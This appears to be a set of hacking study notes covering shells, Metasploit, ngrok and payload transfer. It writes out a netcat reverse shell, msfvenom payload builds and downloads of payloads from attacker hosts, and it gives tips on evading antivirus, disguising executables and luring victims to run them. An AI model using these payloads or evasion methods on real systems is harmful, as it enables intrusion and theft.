



# System hacking

- System hacking is defined as the compromise between computer systems and software to access the target computer and steal or misuse their sensitive information. 
- For System Hacking, having deep knowledge on How Different Operating Systems And Protocols Work Is Very Essential thing.
- Example:
    - To Exploit FTP servers, You have to understand how FTP works and what FTP is.
    - To Exploit Windows Systems you have to understand how Windows works and how you can hack it.

## Linux System hacking

- Linux is considered to be the most secure OS to be hacked or cracked, but in the world of Hacking, nothing is 100% secured.
- Hackers usually use the following techniques to hack the linux system.
    - Hack Linux using the SHADOW file.
    - SSH key leak
    - Remote Code Execution(RCE) 
    - Another technique commonly used by hackers is to bypass the user password option in Linux.(Privilege Escalation)
    - In another technique, the hacker detects the bug on kernel and tries to take advantage of it.

## Windows System hacking

- Windows is Very Broad Topic, than you think.
- You have to learn 
    - Fundamental of Windows
    - DLL Hijacking
    - Powershell Scripting and usage.
    - Managing Services, Users
    - Active Directory system.

## Remote shell access

- A shell is a program that interprets our commands and gives the written commands to the Kernel.
- Based on Access to the shell while Pentest, it is Classified into:
    1. Bind Shell
    2. Reverse Shell

1. **Bind Shell**

- A **bind shell** is a sort of setup where remote consoles are established with other computers over the network.
- In Bind shell, an attacker launches a service on the target computer, to which the attacker can connect.
- In a bind shell, an attacker can connect to the target computer and execute commands on the target computer.
- To launch a bind shell, the attacker must have the IP address of the victim to access the target computer.

2. **Reverse Shell**

- A reverse shell, also known as a remote shell or “connect-back shell,” takes advantage of the target system's vulnerabilities to initiate a shell session and then access the victim's computer.
- Reverse shells allow attackers to open ports to the target machines, forcing communication and enabling a complete takeover of the target machine.
- Therefore it is a severe security threat.
- This method is also commonly used in penetration tests.
- On reverse shells, the attacker will listen for any request on specific port, and the victim will start the request on that port, so we will have a shell. the victim may not sending the request intentionally. But if the attacker send him a link/malware that can start the reverse request that can leads to reverse shell.
- The Malware/Link in this case is called **Payload**.

## Netcat/nc

- **Netcat** is a Command-line Interface (CLI) Based tool that is use to read/write data over TCP/UDP, Used:
    - To listen on ports,
    - To create connection on ports we can use this tool.
- It is a Back-End tool which can smoothly be cross utilized by other programs
- Used to Create a connection with any protocol/port you want or to create a listener on any port
- It is a tool That helps to create **Reverse shells** or **Bind shells**.
- commands
    - "netcat -lvp 2222"
    - "netcat -nlvp 5555"
        -l : Listen
        -v: verbose
        -p: port
        -n: No-DNS resolution

## Payloads

- **Payload** refers to the *code or commands* that are delivered and executed on a target system to perform a specific action, like gaining control, stealing information, or damaging data.
- In simpler terms, it's the part of an exploit that carries out the attacker's intent after a vulnerability has been exploited.
- Payloads can be In Many formats and Programming languages.
    - You can use https://www.revshells.com/ site to generate Bind / Reverse shell commands.
- On the victim i called the attacker IP on that specific port
- This is Where we use payloads.
- The Command You see on the Screen is an example of a Payload.

```bash
nc ipaddres port -e /bin/bash
```

## Web servers

- On the hardware side, a web server is a computer that stores web server software and a website's component files (for example, HTML documents, images, CSS stylesheets, and JavaScript files).
- A web server connects to the Internet and supports physical data interchange with other devices connected to the web.
- **Web Server Software** is a computer software that uses *HTTP* and *HTTPS* to provide a website.(port 80,443)
- There are a lot of software that can be installed on the server to work like web server
- servers are just computers. So to be specific and talk about web server, we have to install some web things.

A. Apache server

- This Server software will help to provide Web contents.
- On linux it comes Built in, But on windows you can install it with softwares called **Xampp** and **Wampp** and will give you localhost web contents
- To Start this server software
    - write this command ==> "sudo systemctl start apache2"
- From now on our computer is acting like a webserver.
    - **Configuration File**: /etc/apache2/apache2.conf
    - **Log File**: /var/log/apache2/access.log 
    - **Port Config File**: /etc/apache2/ports.conf

B. Nginx Server

- **NGINX** (pronounced "engine-x") is a high-performance web server, reverse proxy server, and load balancer. 
- It's widely used for serving static content, acting as a reverse proxy for dynamic content, and improving the scalability and performance of websites and web applications.
- To start the server:
    - "sudo systemctl start nginx"
- To Check Status
    - "sudo systemctl status nginx"
- **Config file**: /etc/nginx/nginx.conf
- **Log File**: /var/log/nginx/access.log

C. Python Server

- We can you python to start web servers
- To start the service
    - "python3 -m http.server port"
- The python will help you to host website from any path on your computer with any port you need.
- So to access the website i need to type the port with the ip, like this ==> **ip:port**

### Common Vulnerabilities and Exposures / CVE

- CVE stands for Common Vulnerabilities and Exposures.
- CVE is a glossary that classifies vulnerabilities.
- The glossary analyzes vulnerabilities and then uses the **Common Vulnerability Scoring System (CVSS)** to evaluate the threat level of a vulnerability.
- The **CVE** glossary is a project dedicated to tracking and cataloging vulnerabilities in consumer software and hardware.
- It is maintained by the MITRE Corporation with funding from the US Division of Homeland Security.
- Vulnerabilities are collected and cataloged using the **Security Content Automation Protocol (SCAP)**.
- SCAP evaluates vulnerability information and assigns each vulnerability a unique identifier.
    - CVE-YEAR-ID
        - CVE-2019-22321



### MITRE

- **MITRE** is a non-profit organization that operates multiple **federally funded research and development centers (FFRDCs)** in the United States.
- It supports government agencies in fields like cybersecurity, defense, healthcare, and homeland security
- Contributions
    - **MITRE ATT&CK Framework**: ATT&CK (Adversarial Tactics, Techniques, and Common Knowledge) is a globally recognized cybersecurity framework developed by MITRE. It details the various tactics and techniques adversaries use during cyberattacks, mapped across different phases of an attack lifecycle (like initial access, persistence, privilege escalation, etc.).
    - CVE and … more

#### ExploitDB

- The Exploit Database is maintained by OffSec
- The Exploit Database is a CVE compliant archive of public exploits and corresponding vulnerable software, developed for use by penetration testers and vulnerability researchers.
- https://exploit-db.com  
- There is A linux tool called “**SearchSploit**” That used to search from exploitDB server, and get the exploit.

#### Mitre Search

- Mitre Has Another site to search CVE’s Detail.
- Link: ===> https://cve.mitre.org/cve/search_cve_list.html 

#### Vulnerability Assessment

- **Vulnerability Assessment** is a systematic process for identifying, analyzing, and prioritizing vulnerabilities in a system or network. 
- It helps organizations understand potential security weaknesses before attackers can exploit them, enabling proactive measures to reduce risk.
- On this Process, Cyber Security Professionals, use Different tools to test For Known Vulnerabilities. Here there is no Penetration test Work, we Just use Checklists.
- Common Vulnerability Assessment Tools
    - **Nessus**
        - is a widely used vulnerability scanner that identifies vulnerabilities, misconfigurations, and compliance issues. It provides detailed reports and recommendations for remediation.
            - https://www.tenable.com/products/nessus 
    - **Acunetix**
        - is a web application vulnerability scanner designed to identify security issues in web applications and APIs.
        - It focuses on finding vulnerabilities specific to web environments.
    - **OpenVAS**
        - An open-source tool that offers comprehensive vulnerability scanning and management features. It’s part of the *Greenbone Vulnerability Management (GVM)* framework
    - **Nmap with NSE**

## Metasploit

- The Metasploit framework is a very powerful tool which can be used by cybercriminals as well as ethical hackers to probe systematic vulnerabilities on networks and servers.
- It is written with ruby.
- It have a lot of exploits for different kind of vulnerabilities and CVE’s.
- It Provides you:
    - Exploits,
    - Payloads: a program that helps to run after exploiting/getting reverse-shells
    - Auxiliaries: Programs That will help to scan further on the system. 
    - Encoders,
    - Listeners,
    - Post-exploitation codes: Used to run after we Exploit / privilege Escalation

### Methodology 

- After Successful Enumeration and Scanning, We can Use Metasploit to Gain and Maintain Access.
- The Use of Metasploit,
    - Making Payloads.
    - Exploiting Vulnerabilities.
- MSF the Framework contains Different Tools inside it.
    - **Msfvenom**:  A standalone tool for generating payloads and shellcode.
    - **Msfconsole**:  The primary Metasploit interface, which provides an interactive command-line interface to Metasploit.
    - **Msfdb**: A command-line tool for managing the Metasploit database.
- We can Search and Use Any Exploits Based on the Vulnerability we got.

#### Payload Formatting

- Operating Systems (OS):
    - Windows: Payloads designed to work with Windows operating systems.
        - Example: windows/meterpreter/reverse_tcp
    - Linux: Payloads intended for Linux systems.
        - Example: linux/x86/meterpreter/reverse_tcp
    - macOS: Payloads for macOS systems.
        - Example: osx/x86/shell_reverse_tcp
    - Android: Payloads for Android devices.
        - Example: android/meterpreter/reverse_tcp
    - FreeBSD: Payloads for FreeBSD systems.
        - Example: freebsd/x86/meterpreter/reverse_tcp
- Shell Types:
    - **Meterpreter**: An advanced, dynamically extensible payload that provides extensive functionality and a variety of post-exploitation features.
        - Example: windows/meterpreter/reverse_tcp
    - **Shell**: Provides basic command execution capabilities. Includes standard shell types like /bin/sh or /bin/bash on Unix-based systems and cmd.exe on Windows.
        - Example: linux/x86/shell_reverse_tcp
- Connection Types:
    - **Reverse TCP**: The payload connects back to the attacker’s machine. Commonly used to bypass network security measures like firewalls and NAT.
        - Example: windows/meterpreter/reverse_tcp
    - **Bind TCP**: The payload listens on a specified port on the target machine, and the attacker connects to it. Useful when the attacker can’t receive incoming connections.
        - Example: windows/meterpreter/bind_tcp
    - **Reverse HTTPS**: Similar to reverse TCP, but uses HTTPS for encrypted communication.
        - Example: windows/meterpreter/reverse_https
    - **Bind HTTPS**: The payload listens for connections over HTTPS.
        - Example: windows/meterpreter/bind_https

#### Types of Payload

- There are two types of Payloads.
    1. Staged Payload
    2. Non-staged Payload

1. **Staged Payload**

- The payload on this type is Delivered in multiple parts:
    - First stage: Small loader is sent to the target.
    - Second stage: The loader fetches and executes the larger payload.
- Example: ===> *windows/meterpreter/reverse_tcp* sends a small piece of code first, then pulls the larger Meterpreter shell.
- The Shell and Connection part is connected with “/” 
- The Purpose of Doing this is:
    - The initial payload is small, reducing the chances of detection.
    - Allows for more complex functionality like Meterpreter sessions.

2. **Non-staged Payload**

- The Payload is Delivered in one single piece.
- Example: ===> *windows/meterpreter_reverse_tcp* delivers the entire Meterpreter payload in one go. 
- The Shell and Connection part is connected with “_” 
- Purpose:
    - Does not depend on additional network communication.
    - Only one network transaction is needed for the payload delivery.
- The Downside is:
    - The entire payload is sent at once, making it easier to detect.
    - Cannot handle as much complexity as a staged payload.

##### Creating of Payload

```bash
msfvenom -p windows/meterpreter/reverse_tcp Lhost=wlan0/eth0/ip Lport=4444 -f exe > payload.exe
msfvenom -p linux/x86/meterpreter/reverse_tcp Lhost=eth0 Lport=5555 -f elf > payload.exe
msfvenom -p android/meterpreter/reverse_tcp Lhost=eth0 Lport=6666 -f apk > payload.apk
```

### Exploits on MSF

- **Exploits** are scripts or modules used to take advantage of vulnerabilities in a system. 
- Each exploit module in Metasploit is designed for a specific type of vulnerability and targets a particular operating system.
- The exploits are located in */usr/share/metasploit-framework/modules/exploits/*
- Exploit Example Formatting:
    - Exploit: exploit/windows/smb/ms17_010_eternalblue
        - OS: Windows
        - Vulnerability: CVE-2017-0144 (EternalBlue)
    - Exploit: exploit/linux/samba/is_known_pipename
        - OS: Linux
        - Vulnerability: Samba SMB vulnerability

##### Problems

- Metasploit is a very old tool and even the encoders are very old.
- This means almost every users tried them to Create Payloads and exploited for some time but now a days all the antivirus and Microsoft defender will detect them.
- But it is Still handy tool for other exploitation and Scanning, you will see it in the future use.
- If you want to test these encoders on your system(if it is vulnerable for some of reason).
- Just add **-e** and the encoder name from the list and create the payload.

### Villan

- At this time, there are some Frameworks that can bypass microsoft defender.
- This means there are a lot of computers with just defender, right?
- The tool is called **Villain**.
- You can clone it from github ===> https://github.com/t3l3machus/Villain 
- It have its own some commands
- This tool is Awesome for
    - Creating payload
    - No need to setup listener
    - You can share the session you got with your friends, and hack together….
- To create payload use this command ===> **Villain> generate os=windows/linux lhost=wlan0/eth0**
    - Villain will give u powershell code
    - It is Easy to create.
    - Also You can use these 3 methods to make it undetectable.
        1. encode
        2. obfuscate
- To see the sessions(hacked PC)
    - sessions 
- To get into that session
    - shell ID

#### How do we send Powershell payloads???

- Now it is time to think like a hacker and getting plan how you will give the payload to the person.
- There are several ways
    - You can create a exe file from that payload
    - You can build/get a autorun usb and do USB drop Attack, Rubber Ducky is Best.
    - You can do social engineering and help them to run it by their own.
- https://ps2exe.azurewebsites.net/   ->  You can also use some exe icon changer softwares to make it look legit.  

##### Others

- Other critical Framework that are heavily used by penetration testers during security assessments are:
    - {Veil-Framework /Veil} ====> (https://github.com/Veil-Framework/Veil ) - Veil Framework
    - {Shellter} ====> (https://www.shellterproject.com/download/ ) - Shellter AV Evasion Artware
    - {Unicorn} ====> (https://github.com/trustedsec/unicorn ) - Trustedsec
    - {MSFvenom Payload Creator (MSFPC)} ====> (https://github.com/g0tmi1k/msfpc ) - g0tmi1k
    - {Venom} ====> (https://github.com/r00t-3xp10it/venom)  - Pedro Ubuntu
    - {Phantom-Evasion} ====> (https://github.com/oddcod3/Phantom-Evasion ) - Diego Cornacchini
    - Empire
- Payload Creation is A part of a Malware development Field, To Go Further on Malware development, you have to learn Programming languages that run quickly and effective on any machines, Like:
    - C
    - C++
    - Rust

### Payload on WAN

- To do this we will need a thing called **port forwarding**.
- **Port forwarding** inherently gives people outside of your network more access to your computer. Giving access or accessing unsafe ports can be risky, as threat actors and other people with malicious intents can then easily get full control of your device.

#### Ngrok

- Ngrok is one of the port forwarding tools.
    - You can host websites with it
    - You can listen to tcp connections
- To set up:
    - GOTO their website & create account ===> https://ngrok.com/
    - Verify the ngrok through the email
- steps

1. Download the ngrok
2. Goto the download location
3. Extract it
4. Add ngrok to the /usr/bin
5. Copy the Auth-token
6. Run it on your terminal

- There are 2 modes.
    1. TCP   ->    ngrok tcp PORT
    2. HTTP ->   ngrok http PORT

1. Ngrok HTTP mode

- Let us make our local web server international

1. We need a webserver
2. Http port forwarding with same port as our webserver
    - ngrok http 80  

- on Python server

```bash
# first open python server in your path
python3 -m http.server 4444

# Then open your ngrok with your port
ngrok http 4444
```

2. Ngrok TCP mode

- To Make our payloads work on WAN, We can follow this,
    - Start Ngrok
        - ngrok tcp PORT
    - Exploit(payload)
        - Make The LHOST to the *Forwarding Link Given By ngrok*
        - Make The LPORT to the *port given after the forwarding link*
    - Listener
        - Set the LHOST to localhost
        - Set the LPORT to the port you started the ngrok.
- On TCP mode, You won’t get Ngrok Logs for any request.

##### Prevention

- Payloads are one of Malwares, so the prevention methods are same with Malware Protection methods.
- REMEMBER: if you have strong antivirus software you are 80% safe.

### File Transfer

- File transfer techniques allow attackers to upload payloads or exfiltrate sensitive data during post-exploitation.
    - **File Transfering Server**: You can Start Python server and use it to download from it.
        - To start python: python3 -m http.server 9090
    - For Windows
        - **Invoke-WebRequest**: iwr -Uri "http://example.com/payload.exe" -OutFile "payload.exe"
        - **CertUtil**: certutil.exe -urlcache -split -f "http://example.com/payload.exe" payload.exe
    - For Linux
        - curl http://attacker_ip:8080/file --output file
        - wget http://attacker_ip:8080/file



### Pivoting

- Pivoting in penetration testing is a technique in which the ethical hackers—also known as white-hat hackers—simulating the attack can move from one system to another.
- There are so many ways to pivot from 1 system to another.

### Privilege Escalation

- privilege escalation attack is a cyberattack to gain illicit access of elevated rights, permissions, entitlements, or privileges beyond what is assigned for an identity, account, user, or machine.
- user to super-admin.

### Steganography

- **Steganography** is the practice of hiding a secret message inside of (or even on top of) something that is not secret. 
- That something can be just about anything you want. 
- These days, many examples of steganography involve embedding a secret piece of text inside of a picture, But also we can hide inside audio files and etc...
- There are many tools for this.
    - The famous on is **“steghide”**

```bash
# First hide the text in image
steghide embed -ef text.txt -cf picture.jpg

# then send it and extract it 
steghide extract -sf picture.jpg

# Finnaly we extract it and read the file
cat text.txt
```

### Keylogging 

- **Keyloggers** are activity-monitoring software programs or hardware device that give hackers access to your personal data.
- The passwords and credit card numbers you type, the web pages you visit – all by logging your keyboard strokes.
- The software is installed on your computer, and records everything you type.

- The file will be saved as .pyw this will make the file to now show any pop up but still it runs on background.
- You can see that in task manager. 
- When you run this , it will create a log file.
